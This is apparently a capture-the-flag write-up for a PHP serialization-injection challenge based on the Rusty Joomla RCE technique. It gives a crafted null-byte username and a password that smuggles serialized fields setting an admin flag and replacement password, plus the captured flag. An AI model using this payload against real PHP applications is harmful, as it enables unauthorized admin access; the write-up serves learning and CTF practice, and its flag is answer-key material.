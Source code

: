 # Solution

This is a PHP overflow challenge. Read [https://blog.hacktivesecurity.com/index.php/2019/10/03/rusty-joomla-rce/](https://blog.hacktivesecurity.com/index.php/2019/10/03/rusty-joomla-rce/)

Solve:
1. Create account, set username to `\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0` and password to `ab";s:12:"\0\0\0_password";s:3:"abc";s:9:"\0\0\0_admin";b:1;s:12:"\0\0\0_reserved";s:47:"`
2. Log in with username `\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0` and password `abc`

Flag: `blahaj{d1Dnt_kN0w_pHP_C0u1D_0V3rf10W}`